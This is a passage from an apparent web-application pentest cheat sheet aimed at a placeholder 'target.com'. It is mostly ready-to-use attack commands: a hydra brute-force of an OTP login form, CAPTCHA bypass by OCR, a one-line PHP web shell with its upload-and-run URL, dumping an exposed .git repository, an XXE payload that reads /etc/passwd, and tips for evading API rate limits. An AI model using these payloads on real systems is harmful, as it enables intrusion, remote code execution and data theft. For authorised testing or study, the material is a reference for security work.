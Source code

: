 Check for:
- Default creds (`admin:admin`)
- No rate limiting
- Leaked password reset endpoints

### OTP Bypass (Token Brute Force)
```bash
hydra -l admin -P otp_list.txt target.com http-post-form "/login:username=^USER^&password=^PASS^&otp=^OTP^:Invalid login"
```

### Bypassing CAPTCHA
```bash
gocr -c 0 -i captcha.png > captcha_output.txt
```

---

## 5. Exploit Misconfigurations

### File Upload → RCE
```php
<?php system($_GET['cmd']); ?>
```

Upload and access:
```
/uploads/shell.php?cmd=id
```

### Exposed Git repo
```bash
curl target.com/.git/config
```

Then use:
```bash
git-dumper https://target.com/.git/ dumped-site/
```

### SSTI / XXE / SSRF
Test payloads in templates, XML parsers, and image URLs:
```xml
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

### Exploiting API Endpoints (API Rate Limiting)
```bash
curl -X GET https://target.com/api/v1/products --header "Authorization: Bearer YOUR_TOKEN"
```

Check for:
- Rate limiting bypass via multiple tokens or IP addresses

---